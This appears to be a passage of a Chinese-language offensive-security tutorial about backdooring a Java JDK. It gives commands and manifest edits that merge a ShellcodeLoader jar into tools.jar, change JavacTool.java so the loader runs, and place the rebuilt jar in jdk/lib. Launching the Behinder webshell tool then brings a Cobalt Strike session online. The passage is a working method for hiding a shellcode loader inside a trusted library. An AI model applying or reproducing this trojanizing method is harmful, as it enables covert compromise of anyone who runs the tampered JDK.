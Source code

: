 ![](images/5.png)

## 启动BX验证

cs上线成功。

## 优化

将rt1.jar和目标jar合并成一个新的jar。

修改 JavacTool.java里的命令，改成执行目标jar。

重新替换tools.jar：


	jar -xvf rt1.jar
	jar -xvf tools.jar

这里需要注意设置一个启动项，修改 META-INF 下的  MANIFEST.MF 配置文件，新增 ```Main-Class: ShellcodeLoader```，根据你的命名规则自定义。


	Manifest-Version: 1.0
	Created-By: 1.7.0_07 (Oracle Corporation)
	Main-Class: ShellcodeLoader

编译jar

	rm -f *.jar
	jar -cvfM tools.jar .   

将这个jar放在jdk_home ```jdk/lib/```目录下，打开BX，即可上线cs。

![](images/6.png)
